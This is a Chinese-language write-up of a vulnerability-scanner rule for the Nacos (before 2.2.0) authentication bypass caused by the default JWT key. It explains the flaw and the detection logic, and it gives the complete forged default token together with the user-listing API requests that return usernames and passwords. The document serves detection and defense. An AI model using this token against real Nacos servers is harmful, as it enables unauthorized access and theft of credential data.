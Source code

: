# Nacos < 2.2.0 - 认证绕过漏洞（默认JWT密钥）探测原理说明

## 1. 漏洞简介

Nacos 2.2.0 之前版本存在认证绕过漏洞。由于默认JWT密钥未更改，攻击者可伪造合法Token，绕过认证获取敏感信息。

## 2. 影响范围

- 受影响产品：Nacos < 2.2.0（未修改默认JWT密钥的实例）
- 只要JWT密钥未更改，均可能被利用

## 3. 漏洞原理

Nacos使用JWT进行用户认证。若管理员未更改默认密钥，攻击者可利用公开的默认密钥生成任意合法Token，直接访问受保护接口，绕过认证。

## 4. 利用方式与攻击流程

1. 攻击者使用默认密钥`nacos`生成合法JWT Token。
2. 构造带有该Token的HTTP请求，访问Nacos认证接口。
3. 服务端用默认密钥校验Token，认证通过，返回敏感信息。

## 5. 探测原理与流程（yaml 规则详细说明）

该yaml规则利用默认JWT Token进行无害化探测，流程如下：

### 5.1 探测请求的构造

- 发送GET请求到如下接口：
  ```
  GET /nacos/v1/auth/users?pageNo=1&pageSize=10&accessToken=<默认token>
  GET /v1/auth/users?pageNo=1&pageSize=10&accessToken=<默认token>
  ```
  - `<默认token>`为已知的默认JWT Token：
    `eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OTl9.-isk56R8NfioHVYmpj4oz92nUteNBCN3HRd0-Hfk76g`

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 响应体需包含`"username":`和`"password":`字段，表明返回了用户信息。
  - 响应头需包含`application/json`。
  - HTTP状态码为200。

### 5.3 判定逻辑

- 只有当：
  1. 响应体中包含`"username":`和`"password":`，
  2. 响应头包含`application/json`，
  3. 状态码为200，
  才判定目标存在认证绕过漏洞。

- **判定流程伪代码**：
  ```pseudo
  token = 默认JWT Token
  for path in ["/nacos/v1/auth/users", "/v1/auth/users"]:
      发送GET {path}?pageNo=1&pageSize=10&accessToken={token}
      若响应体含username和password，响应头含application/json，状态码为200：
          判定目标存在认证绕过漏洞
  ```

- **流程图**：
  ```mermaid
  graph TD
      A[发送带默认token的GET请求到认证接口] --> B{响应体含username和password?}
      B -- 否 --> F[无漏洞或未触发]
      B -- 是 --> C{响应头含application/json?}
      C -- 否 --> F
      C -- 是 --> D{状态码为200?}
      D -- 否 --> F
      D -- 是 --> E[判定目标存在认证绕过漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [Nacos官方issue](https://github.com/alibaba/nacos/issues/10060)
- [阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2023-1655789)
- [Nacos官方认证文档](https://nacos.io/zh-cn/docs/auth.html) 